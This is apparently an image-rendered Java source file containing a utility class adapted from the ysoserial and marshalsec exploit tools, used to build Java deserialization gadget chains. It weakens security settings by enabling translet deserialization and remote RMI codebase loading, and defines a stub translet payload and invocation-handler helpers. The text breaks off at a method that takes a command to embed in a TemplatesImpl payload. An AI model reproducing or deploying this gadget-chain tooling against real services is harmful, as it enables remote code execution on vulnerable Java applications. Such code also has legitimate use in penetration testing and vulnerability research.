 ```java
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.Serializable;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

import static com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.DESERIALIZE_TRANSLET;

/*
 * Utility class - based on code found in ysoserial, includes method calls used in
 * ysoserial.payloads.util specifically the Reflections, Gadgets, and ClassFiles classes. These were
 * consolidated into a single util class for the sake of brevity; they are otherwise unchanged.
 *
 * Additionally, uses code based on marshalsec.gadgets.ToStringUtil.makeSpringAOPToStringTrigger
 * to create a toString trigger
 *
 * ysoserial by Chris Frohoff - https://github.com/frohoff/ysoserial
 * marshalsec by Moritz Bechler - https://github.com/mbechler/marshalsec
 */
public class Utils {
    static {
        // special case for using TemplatesImpl gadgets with a SecurityManager enabled
        System.setProperty(DESERIALIZE_TRANSLET, "true");

        // for RMI remote loading
        System.setProperty("java.rmi.server.useCodebaseOnly", "false");
    }

    public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

    public static class StubTransletPayload extends AbstractTranslet implements Serializable {

        private static final long serialVersionUID = -5971610431559700674L;


        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}


        @Override
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }

    // required to make TemplatesImpl happy
    public static class Foo implements Serializable {

        private static final long serialVersionUID = 8207363842866235160L;
    }

    public static InvocationHandler createMemoizedInvocationHandler (final Map<String, Object> map ) throws Exception {
        return (InvocationHandler) Utils.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
    }

    public static Object createTemplatesImpl ( final String command ) throws Exception {
```